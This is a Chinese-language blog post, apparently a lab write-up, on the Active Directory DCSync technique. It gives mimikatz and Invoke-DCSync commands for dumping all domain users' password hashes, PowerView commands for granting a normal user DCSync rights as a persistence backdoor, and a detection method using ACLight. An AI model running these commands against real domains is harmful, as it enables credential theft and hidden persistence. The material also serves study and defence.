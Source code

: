# 域渗透-DCsync


## 0x1 概念

在域中，不同的DC之间，每隔15分钟会进行一次域数据的同步。当一个DC（辅助DC）想从其他DC（主DC）获取数据时，辅助DC会向主DC发起一个GetNCChanges请求。请求的数据包括需要同步的数据。如果需要同步的数据比较多，则会重复上述过程。DCSync就是利用的这个原理，通过Directory Replication Service(DRS)服务的GetNCChanges接口向域控发起数据同步请求。

在DCSync功能出现之前，要想获得域用户的哈希，需要登录域控制器，在域控制器上执行代码才能获得域用户的哈希。2015年8月，新版的mimikatz增加了DCSync的功能，该功能可以模仿一个域控DC，从真实的域控中请求数据，如用户的哈希。该功能最大的特点就是可以实现不登录到域控而获取域控上的数据。

## 0x2 利用条件

所需权限：

- 复制目录更改
- 复制目录全部更改
- 在筛选集中复制目录更改(非必要)

默认拥有上述权限的用户如下

```txt
Administrators组内的用户
Domain Admins组内的用户
Enterprise Admins组内的用户
域控制器的计算机账户(Administrator和system)
```

**DCSync 攻击的对象如果是只读域控制器 (RODC)，则会失效，因为 RODC 是不能参与复制同步数据到其他 DC 的**

## 0x3 利用方法

#### 1.使用mimikatz

切换到debug权限

```shell
log
privilege::debug
```

导出域内所有用户的hash：

```shell
lsadump::dcsync /domain:xr.com /all /csv
```

导出域内administrator帐户的hash：

```shell
lsadump::dcsync /domain:xr.com /user:administrator /csv
```

下面开始实验使用Domain Admins内用户zs，登录到域内主机上，使用mimikatz来读取hash

<img src="https://s1.vika.cn/space/2023/08/17/5203bcc5cdf941a2aa8c2842fef53d29" style="zoom:;" />

<img src="https://s1.vika.cn/space/2023/08/17/32ecae7cc96e4a49adaf116c6336e68d" alt="image-20230817144449104" style="zoom:;" />

#### 2.powershell实现

通过Invoke-ReflectivePEinjection调用mimikatz.dll中的dcsync功能

导出域内所有用户的hash：

```shell
Invoke-DCSync -DumpForest | ft -wrap -autosize
```

<img src="https://s1.vika.cn/space/2023/08/17/ec8199572b8e442d9279a188291409c8" alt="image-20230817151206787" style="zoom:;" />

导出域内administrator帐户的hash：

```shell
Invoke-DCSync -DumpForest -Users @("administrator") | ft -wrap -autosize
```

<img src="https://s1.vika.cn/space/2023/08/17/049f9632d4014e7db1e0beab8205d431" alt="image-20230817151237335" style="zoom:;" />

## 0x4 DCSync在域内维持权限

**利用条件：**

获得以下任一用户的权限：

- Domain Admins组内的用户
- Enterprise Admins组内的用户

**利用原理：**

向域内的一个普通用户添加如下三条ACE(Access Control Entries)：

- DS-Replication-Get-Changes(GUID:1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
- DS-Replication-Get-Changes-All(GUID:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
- DS-Replication-Get-Changes(GUID:89e95b76-444d-4c62-991a-0facbeda640c)

该用户即可获得利用DCSync导出域内所有用户hash的权限

**利用方法：**

添加ACE的命令：

```shell
Add-DomainObjectAcl -TargetIdentity "DC=xr,DC=com" -PrincipalIdentity liu -Rights DCSync -Verbose
```

删除ACE的命令：

```shell
Remove-DomainObjectAcl -TargetIdentity "DC=xr,DC=com" -PrincipalIdentity liu -Rights DCSync -Verbose
```

开始实验，我们在一台域内主机登录liu普通域用户，使用mimikatz导出hash，失败

<img src="https://s1.vika.cn/space/2023/08/17/36a4c0ee63204da0880453706214153a" alt="image-20230817230857468" />

在另一台域内主机登录Domain Admins内用户zs，执行ps1，成功添加

<img src="https://s1.vika.cn/space/2023/08/17/cd8e8efefbcc43f0b954dabdb605a6cc" alt="image-20230817231012951" />

回到liu这台主机，再次导出hash，成功导出数据

<img src="https://s1.vika.cn/space/2023/08/17/6819fc1160904fb58a26449085f974b7" alt="image-20230817231041072" />

## 0x5 检测DCSync后门

具有高权限但不在高权限组的用户被称之为Shadow Admin，例如0x03中的域用户test1，仅通过查询高权限组的成员无法发现域内的Shadow Admin

**检测原理：**

枚举Active Directory中所有用户的ACL，标记出特权帐户

**利用条件：**

- Powershell v3.0
- 域内普通用户权限

![image-20230817232541260](https://s1.vika.cn/space/2023/08/17/78e80b418811489f92fda29885b4a118)

要求Powershell v3.0，增加一台win10来执行Execute-ACLight2.bat,登录域内普通用户ls

![image-20230817234713769](https://s1.vika.cn/space/2023/08/17/b29b783c8641417fb1d0a6c75bf9c82d)

生成result文件夹查看结果，排查到liu用户为Shadow Admin

<img src="https://s1.vika.cn/space/2023/08/17/fc78e9bc6ea0418694510649d32eef7b" alt="image-20230817234857099" />


---

> 作者: [xunruo](https://xunruo.top)  
> URL: https://xunruo.top/post/2d099117/  

